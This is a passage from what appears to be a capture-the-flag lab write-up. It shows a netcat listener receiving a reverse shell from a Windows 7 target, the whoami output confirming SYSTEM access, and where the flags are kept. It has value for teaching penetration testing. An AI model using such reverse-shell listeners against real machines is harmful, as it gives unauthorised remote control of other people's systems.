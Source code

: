 Here is the shell calling on our machine:

```
nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.40] 49298
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

And we are already **SYSTEM**! No privilege escalation is needed!


**Note**: flags are under `\Administrator\Desktop` and `\Users\Desktop`.
